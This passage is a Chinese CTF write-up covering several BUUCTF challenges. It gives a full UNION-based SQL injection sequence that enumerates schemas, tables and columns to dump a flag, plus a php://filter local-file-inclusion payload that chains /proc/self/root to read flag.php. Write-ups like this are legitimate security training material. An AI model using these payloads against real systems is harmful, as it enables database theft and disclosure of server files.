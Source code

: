 内容要先写到文件里再上传，不然编码有问题

![在这里插入图片描述](https://img-blog.csdnimg.cn/84835e84e51f4effae2934aa5e8e2a5c.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/6557996b18f64eb5a0996ef738c8e422.png)
>这题的flag在环境变量中，可能是配置问题，使用下env命令即可得出flag。

![在这里插入图片描述](https://img-blog.csdnimg.cn/7bc04eec274742dc8faa2c0c97637e84.png)

# [b01lers2020]Life on Mars
>[博客来源](https://blog.csdn.net/qq_24033605/article/details/121140847)

抓包发现有关键词，SQL注入

`'or 1=1`这个测试我没做成功，看到佬直接用`union`


`chryse_planitia/**/union/**/select/**/1,2`

![在这里插入图片描述](https://img-blog.csdnimg.cn/ac01c3bceeee41a2a3b7361ea9077e1f.png)
数据库`chryse_planitia/**/union/**/select/**/database(),2`
![在这里插入图片描述](https://img-blog.csdnimg.cn/657e282a465e4cd4937736becb26f4d3.png)
表名`chryse_planitia/**/union/**/select/**/group_concat(schema_name),2/**/from/**/information_schema.schemata`

![在这里插入图片描述](https://img-blog.csdnimg.cn/3a71f8e865c34bfc89c14063801b8acd.png)
表名`chryse_planitia/**/union/**/select/**/group_concat(table_name),2/**/from/**/information_schema.tables/**/where/**/table_schema='alien_code'`
![在这里插入图片描述](https://img-blog.csdnimg.cn/fb6234085c3d44008c39e5fab603c178.png)
列名`chryse_planitia/**/union/**/select/**/group_concat(table_name),2/**/from/**/information_schema.columns/**/where/**/table_name='code'`

![在这里插入图片描述](https://img-blog.csdnimg.cn/02871ddc30e3448090e30de7431d6c2a.png)
flag
`chryse_planitia/**/union/**/select/**/group_concat(code),2/**/from/**/alien_code.code`
![在这里插入图片描述](https://img-blog.csdnimg.cn/99ddfa3a7a1c445ba7252a7b37420563.png)

# [WMCTF2020]Make PHP Great Again

>[参考博客](https://blog.csdn.net/rfrder/article/details/120975636)
>[漏洞介绍、复现、必读](https://www.anquanke.com/post/id/213235)

payload:`http://a4b822a9-e181-4395-b9be-014a4acc375e.node4.buuoj.cn:81/?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
`
![在这里插入图片描述](https://img-blog.csdnimg.cn/4cb84ae4577f4df8aa4c192a55e41e09.png)
# [MRCTF2020]Ezaudit
